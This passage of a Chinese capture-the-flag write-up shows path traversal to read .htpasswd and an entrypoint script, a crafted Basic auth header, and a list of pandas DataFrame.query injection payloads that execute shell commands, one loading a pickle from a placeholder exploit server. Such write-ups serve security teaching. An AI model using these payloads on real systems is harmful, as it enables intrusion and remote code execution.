 ```py
        print("\n")
        print(self.response_body)
        print("\n")
```

代码很简单，而且我们能够控制的地方并不多，大概率是通过 df.query() 实现 rce，但在此之前需要先解决 HTTP 认证的问题。

#### HTTP 认证:

由于 `/cgi-bin` 是需要通过 HTTP 认证的，所以首先想到通过 `static../etc/.htpasswd` 拿到 `.htpasswd`，这里有一个比较坑的地方，虽然密码只有一位，但是不是一个 ASCII 字符，通过一般的字典爆破解不出来。

后来主办方更新了附件，提供了 `Dockerfile`，发现并没有在构建容器的时候就生成 `.htpasswd`，于是想到去拿 `/docker-entrypoint.sh`

![](https://imgur.com/USX5pzQ.png)

可以发现 admin 的密码是 `\xc2\xad`，通过 `base64.b64encode(b'admin:\xc2\xad')` 生成 HTTP 认证头 `Authorization: Basic YWRtaW46wq0=`，测试通过 HTTP 认证

![](https://imgur.com/hmSbUPh.png)

#### pandas rce:

在文档(https://pandas.pydata.org/pandas-docs/stable/reference/api/pandas.DataFrame.query.html)中可以看到这样一句话：

> You can refer to variables in the environment by prefixing them with an ‘@’ character like `@a + b`.

所以我们可以把引号闭合之后通过 `@` 来实现 rce，方法就很多了，但还是有几点要注意一下：

- 因为是直接通过 nginx 传给 cgi，所以不需要 url 编码
- 由于 `server.py` 里面是通过 `=` 来分割字符的，所以不能在 payload 里面出现 `=`

这里收集一些 payload：

```py
'+@pd.eval('__import__("os").system("ls /")','python','python',True,@pd.__builtins__)+'

a'+(@server.__class__.__init__.__globals__['__spec__'].loader.__init__.__globals__['sys'].modules['os'].popen('ls /').read())#

'and@'pd'.annotations.__class__.__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls > /tmp/test")') or '

'+(@pd.io.common.os.popen('ls > /tmp/ls').read())+'

'|@pd.read_pickle('http://exp-server/output.exploit')|'

'or[].__class__.__base__.__subclasses__()[145].__init__([].__class__.__base__.__subclasses__()[145]).__class__.__name__<'1'or@server.add_body([].__class__.__base__.__subclasses__()[145]._module.sys.modules["subprocess"].check_output(["ls","-l", "/"]).decode()).__class__.__name__<'

'+@__builtins__.exec('import\x20os;raise\x20Exception(os.listdir(\"/\"))')+'
```
